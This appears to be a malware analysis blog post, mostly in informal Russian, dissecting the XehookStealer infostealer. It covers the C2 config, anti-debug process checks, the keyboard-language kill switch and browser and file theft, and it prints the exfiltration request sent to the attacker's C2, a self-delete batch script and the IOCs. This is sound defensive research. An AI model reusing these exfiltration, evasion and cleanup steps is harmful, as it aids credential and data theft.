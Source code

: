 ```yaml
---
title:  "Malware Analysis - XehookStealer analysis"
date:   2024-02-29 00:01:00 +0300
author: cozy
categories: [malware, stealer]
---
```


### Introduction
Great Stealer, реально крутой стилак.
SHA256: `a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c`

### Stage 1
натравим de4dot
![](/images/xehook/1.png)\
вооот сразу видно наш народный virtualProtect и createThread. Запускаем, дампим и там будут байтики 0x4d 0x5a то есть **MZ** сигнатура.
![](/images/xehook/2.png)

### xeHook stealer
obfuscated with confuserEx
![](/images/xehook/3.png)

use de4dot\
![](/images/xehook/4.png)\
готовый бинарь кайф
![](/images/xehook/5.png)

Первый метод получает рандомную строку размером в 32 байта из символов "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789". Example: "OYGSQGUGRRQKK07OWWLYT6TE25JAIGKN". Данные байты в конечном итоге будут являться названием файла.
![](/images/xehook/6.png)\
следующий метод декодит C2: `https://trecube[.]com/`, `https://nc1337[.]online/`, а также обращается к C2. Если C2 возвращает `index.html` то ВПО работает с этим C2. В частности первый C2 вернул `index.html` поэтому все дальнейшие обращения будут к этому серверу.

Следующий метод конкатенирует строки с C2 для дальнейшего обращения и получения конфигурации: `https://trecube[.]com/getjson.php?id=40`. 
Получаемая конфигурация:
```Text
"{\r\n\t\"debug\": \"0\",\r\n\t\"emulate\": \"0\",\r\n\t\"virtualbox\": \"0\",\r\n\t\"virustotal\": \"0\",\r\n\t\"error\": \"0\",\r\n\t\"errorname\": \"NONE\",\r\n\t\"errtextbox\": \"NONE\",\r\n\t\"competitor\": \"0\",\r\n\t\"selfmelf\": \"1\",\r\n\t\"domaindetect\": \"facebook.com;linkedin.com;twitter.com\",\r\n\t\"filext\": \"*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*\"\r\n}"
```
проверка на всякие залупы такие как, будет ли проверяться на vm, будет ли проверяться на debug. Также *domaindetect* это домены с которых желательно собирались бы креды??, а *filext* это расширения файлов которые будут спизжены в дальнейшем.

#### Debug features

Также присутсвтуют проверки на debug
![](/images/xehook/7.png)\
![](/images/xehook/8.png)\
В данном случае проверяются следующие запущенные процессы (Маловато?):
1. "processhacker"
2. "netstat"
3. "netmon"
4. "tcpview"
5. "wireshark"
6. "filemon"
7. "regmon"
8. "cain"


Check Ticks
![](/images/xehook/9.png)\
Также с помощью WMI чекатеся фичи процессора путем выполнения команды: `Select * from Win32_ComputerSystem`
![](/images/xehook/10.png)
Идет обращение к `http://ip-api[.]com/line/?fields=hosting`
![](/images/xehook/11.png)\
Также идет проверка на языки клавиатуры, в частности если один из следующих языков присутсвтует, то ВПО завершает свое выполнение:
1. "ru-RU" (Наши братушки получается??)
2. "kk-KZ"
3. "ro-MD"
4. "uz-UZ"
5. "be-BY"
6. "az-Latn-AZ"
7. "hy-AM"
8. "ky-KG"
9. "tg-Cyrl-TJ"

![](/images/xehook/12.png)


#### Stealer features
Обращается к `http://ip-api[.]com/json/?fields=11827` которая в формате json отдает инфу о тачке
```json
{
    "country": "<country>",
    "countryCode": "<replaced>",
    "city": "<replaced>",
    "zip": "<replaced>",
    "isp": "<holding here_replaced>",
    "org": "<provider_replaced>",
    "as": "<some_data_too_about_provider_replaced>",
    "query": "<ip_here_replaced>"
}
```
кароч я все зареплейсил, но там буквально вся инфа.
весь пиздинг идет в этом методе.
![](/images/xehook/13.png)

пиздинг идет по всем расширениям из C2, а именно:
`*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed`
все найденные файлы данное ВПО упаковывает в .zip архив, формирует файл из тех 32 байтов которые получались в первом методе путем перестановки строки"ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".\
Данный файл сохраняется по пути `%LOCALAPPDATA%`. 
В частности: `%LOCALAPPDATA%\53Q98KXOBEQ1UDM2WFKRS8MOQDWDG1EL`

Также пиздятся autofill data, cookie и все что можно с браузеров спиздить.
Также делается screenshot экрана.
В данном методе формируется запрос, которые отправляется на C2. В частности формирутеся такой запрос: 

```text
https://trecube[.]com/gate[.]php?id=40&build=new_cloudnever&passwords=<pass_count>&cookies=<cookies_count>&username=<username>&country=<country>&ip=<ip_here>&BSSID=<md5hash_of_procID_and_Diskdrive_serialNumber>&wallets=<amount_of_wallets>&token=xehook40363717&ext=0&filters=0&pcname=<pc_name>&cardsc=0&telegram=False&discord=False&steam=False&domaindetect=
```


Данный запрос отправляется на C2 вместе с файлом который является большой зипкой,и затем происходит удаление данного файла.
![](/images/xehook/14.png)

В конце выполнения ВПО формирует *.bat* скрипт, а именно скрипт с названием *delete.bat* и сохраняет его в %TEMP%
![](/images/xehook/15.png)

Содержимое данного скрипта:
```cmd
@echo off
ping 127.0.0.1 -n 2 > nul
@ "del ""%DESKTOP%\a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin"""
@"del ""%TEMP%\delete.bat"""
```

В данном скрипте происходит пинг локалхоста, удаление оригинального исполняемого файла, а также удаленние .bat скрипта.

### Stolen data
Вся спизженная дата хранится в *%LOCALAPPDATA%* с рандомным именем состоящим из перестановки 32-х байтов  "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".

Данный файл состоит из зипок .zip, но его можно воспринимать как одну целую зипку, так что его можно просто распаковать.
Вот что хранится внутри данного .zip файла:
![](/images/xehook/16.png)\
Где:
1. Autofills это директория в которой находятся файлик со спизженой autofill датой из браузеров, в частности:
![](/images/xehook/17.png)\
![](/images/xehook/18.png)\
2. Cookies - спизженные куки файлики.
![](/images/xehook/19.png)\
![](/images/xehook/20.png)\
3. Files - все файлы с расширениями указанными в конфигурационном файле с C2, а именно `*.txt;*.doc;*.docx;*.json;*.odt;*.dat;*.pdf;*.rtf;*.eml;*.wallet;*seed*`
![](/images/xehook/21.png)\
![](/images/xehook/22.png)\
Внутри данных директорий находятся файлы с расширенями, в частности пример:
![](/images/xehook/23.png)\
4. About PC.txt - там находится вся инфа о пк, а также ахуенная stealerNote (записька стилера ;)) )
![](/images/xehook/24.png)\
Также она плейнтекстом
```text
          _                 _    
__  _____| |__   ___   ___ | | __
\ \/ / _ \ '_ \ / _ \ / _ \| |/ /
 >  <  __/ | | | (_) | (_) |   < 
/_/\_\___|_| |_|\___/ \___/|_|\_\

xehook Stealer — https://t[.]me/xehook

Build location: a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c\dump2-cleaned.bin
Build tag: <replaced>
Build version: 2.0.8 Stable

Launch time: <replaced>
IP address: <replaced> 
Postcode: <replaced>
Location: <replaced>

Computer: <replaced>
Username: <replaced>
OS: Windows 10 Pro (x64)
Language: <replaced>

Resolution: <replaced>
GPU: <replaced>
CPU: <replaced>
RAM: <replaced>
MAC: <replaced>

Device HWID: <md5_hash_replaced>
```


ну к слову записка реально ахуенная
5. Passwords.txt - файл с пароля с браузеров, а именно hostname - это url, Username - логин, Password - пароль, Browser - ну клиент типа.
![](/images/xehook/25.png)\
6. Screenshot.jpg - скриншот во время выполнения ВПО. В частности делается внутри данного метода
![](/images/xehook/13.png)


### IOCS

| C2                       |
|--------------------------|
| https://trecube[.]com/   |
| https://nc1337[.]online/ |

| SHA256                                                           | File   |
| ---------------------------------------------------------------- | ------ |
| a3882ac90190c7ccbea744dde58f0a107b67e3eea0024b12d18e72faf9a55b1c | Stage1 |
| daea71a3094e0c90554a77e95b0b354d1515f99e70fa5013f09302a5bb04dde0 | xehook |


### Conclusion
крутой стилак че сказать норм.
